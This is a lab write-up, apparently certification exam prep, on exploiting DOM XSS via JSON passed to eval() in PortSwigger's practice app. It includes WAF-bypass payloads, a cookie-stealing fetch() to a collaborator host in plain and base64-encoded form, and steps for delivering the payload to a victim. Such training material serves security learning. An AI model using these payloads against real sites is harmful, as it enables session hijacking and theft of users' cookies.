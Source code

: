 #### XSS via JSON into EVAL

> This [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html) is performing search function and the **DOM Invader** _**identify**_ the sink in an `eval()` function. The search results are placed into JSON content type.

> Test escape out of the `JSON` data and inject test payload `"-prompt(321)-"` into the JSON content.

> Attempting to get our own session cookie value with payload of `"-alert(document.cookie)-"` and filter message is returned stating `"Potentially dangerous search term"`.

> WAF is preventing dangerous search filters and tags, then we bypass WAF filters using JavaScript global variables.

```JavaScript
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
```

[secjuice: Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/)

> Below is the main cookie stealer payload before BASE 64 encoding it.

```JavaScript
fetch(`https://COLLABORATOR.com/?jsonc=` + window["document"]["cookie"])
```

> Next is encode payload using [Base64 encoded](https://www.base64encode.org/) value of the above cookie stealer payload.

```
ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ==
```

> Test payload on our own session cookie in Search function.

```JavaScript
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```

> Unpacking above payload assembly stages:

* Using the **eval()** method evaluates or executes an argument.
* Using **atob()** or **btoa()** is function used for encoding to and from base64 format strings.
* If **eval()** being blocked then Alternatives:
  * setTimeout("code")
  * setInterval("code)
  * setImmediate("code")
  * Function("code")()

> This image shows Burp Collaborator receiving the my cookie value as proof of concept before setting up payload to `Deliver exploit to victim`.

> [URL Encode](https://www.urlencoder.org/) all characters in this payload and use as the value of the `/?SearchTerm=` parameter.
